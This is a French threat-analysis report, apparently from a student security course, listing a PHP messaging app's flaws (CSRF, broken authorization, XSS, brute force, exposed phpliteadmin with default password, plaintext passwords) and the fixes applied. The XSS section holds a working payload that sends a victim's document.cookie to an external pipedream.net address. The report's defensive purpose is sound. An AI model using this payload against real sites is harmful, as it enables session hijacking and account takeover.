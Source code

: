 # STI — Analyse des menaces

* **Date** : 15.01.2020
* **Auteurs** : Nikolaos Garanis, Nemanja Pantic.

## CSRF

L'application est vulnérable aux attaques CSRF sur tous ses formulaires. Un attaquant peut alors amener un utilisateur à exécuter à son insu les actions suivantes :

1. Suppression de n'importe quel message contenu dans la base de données (via le lien `/delete.php?delete=<id>`). Cela est possible en faisant soumettre à l'utilisateur un formulaire GET avec les bonnes valeurs.
2. Envoi ou réponse à un message (via les formulaires dans `send.php`).
3. Changement du mot de passe de l'utilisateur (via le formulaire dans `pwd.php`).
4. Création, suppression ou modification de n'importe quel utilisateur si la victime est un administrateur (via les formulaires dans `admin.php`).

### Contre mesure

Pour éviter les attaques CSRF nous générons un token à chaque fois qu'un formulaire est affiché et nous stockons sa valeur dans la session de l'utilisateur. Lorsque le formulaire est soumis (le token est un champ caché de ce formulaire), le token est vérifié avec la valeur présente dans la session.

Une limitation de cette solution est que si l'utilisateur ouvre une première page avec un formulaire, puis une deuxième avec un autre formulaire, alors la soumission du premier formulaire ne fonctionnera pas (puisque la valeur du token dans la session aura été changée).

## Autorisation

Il est possible pour un utilisateur de lire, supprimer ou répondre à n'importe quel message contenu dans la base de données (via les liens `/delete.php?delete=<id>`, `read.php?message=<id>` et `send.php?message=<id>`).

### Contre mesure

Afin de  se  protéger contre cette vulnérabilité, une vérification a été rajoutée. Toute action sur un message doit être effectuée par le récipient du message. Cela a été corrigé dans les requêtes SQL correspondantes.

## XSS

L'application est vulnérable aux injections XSS puisque le code HTML et Javascript est interprété lorsqu'il se trouve à certains endroits critiques comme :

* le corps d'un message et son sujet,
* le nom et prénom d'un utilisateur.

Il est donc tout à fait possible d'injecter du code Javascript pour, par exemple, récupérer le cookie d'un utilisateur à son insu en envoyant le message suivant :

```html
Corps du message
</textarea> <!-- afin que ce qui suit ne s'affiche pas dans la réponse au message -->
<script>fetch('https://enons72ccci9o.x.pipedream.net/' + document.cookie)</script>
```

### Contre mesure

Afin que le code HTML et Javascript ne puisse être interprété (lorsqu'il est injecté dans du code HTML), nous avons échappé les données provenant de l'utilisateur en utilisant la fonction PHP `htmlspecialchars`. Cela a été implémenté dans la fonction `anti_xss` dans `secure.php`.

## Injections SQL

Aucune possibilité d'injection SQL n'a été trouvée car nous utilisons la librairie PDO et ses méthodes prepare et execute. Celles-ci fournissent déjà un niveau de protection contre les injections SQL.

## Brute force

L'application ne dispose d'aucune protection contre le brute force, que ce soit lors du login d'un utilisateur, lorsqu'un utilisateur change son mot de passe (et qu'il doit rentrer son mot de passe actuel) ou dans l'interface d'administration.

### Contre mesure

Plusieurs solutions sont possibles pour combler cette vulnérabilité. Par exemple, une colonne indiquant le nombre de login raté pourrait être rajouté dans la table utilisateur. Une fois une certaine valeur dépassée, le compte est bloqué. Pour débloquer le compte, un mail pourrait être envoyé à l'utilisateur (donnée qui n'existe pas dans notre application). Sinon, le compte pourrait être débloqué par un administrateur, mais il faudrait un moyen de communication entre l'administrateur et la personne ayant son compte bloqué (ce qui n'est pas le cas de notre application). C'est pour cette raison que nous n'avons pas implémenté cette fonctionnalité.

Il serait aussi possible de limiter le brute force au niveau des adresses IP mais cela sort du champ de notre application.

## Authentification

Lorsque l'utilisateur souhaite changer son mot de passe, le mot de passe actuel n'est pas demandé. Ceci est un problème car un attaquant ayant volé la session d'un utilisateur—mais qui ne connait pas son mot de passe—pourait alors le changer.

### Contre mesure

Afin de corriger cette faiblesse un champ a été rajouté pour que l'utilisateur puisse entrer son mot de passe actuel afin de le changer (dans le champ suivant).

## Site map

Un attaquant essayant des noms de répertoire commun peut voir la présence d'un répertoire `extern` avec un fichier `phpliteadmin.php` dedans, lequel permet d'accéder à l'intégralité de la base de données avec le simple mot de passe par défaut "admin".

### Contre mesure

Le répertoire `extern` a été supprimé ainsi que les fichiers qui s'y trouvaient. Aucune autre mesure n'a été prise, cela devrait plutôt être fait au niveau du serveur d'application (par exemple pour éviter le brute force selon les IP).

## Mots de passe

Les mots de passe étaient stockés en clair dans la base de données ce qui est un manque totale de confidentialité dans le cas d'un vol de la base de données ou simplement par rapport aux administrateur qui y ont accès. Les mots de passe des utilisateurs par défaut étaient aussi beaucoup trop simples.

### Contre mesure

Pour les utilisateurs par défaut, leur mot de passe a été généré aléatoirement et contient 16 caractères. De plus, les mots de passe sont maintenant hashés avec la fonction PHP `password_hash` avec l'algorithme Bcrypt. Celle-ci utilise un sel aléatoire pour chaque mot de passe.

Nous avons aussi décidé d'imposer certaines règles lorsqu'un utilisateur choisit son mot de passe. Le mot de passe doit contenir 10 caractères et posséder au moins une majuscule, une minuscules, un chiffre et un caractère spécial.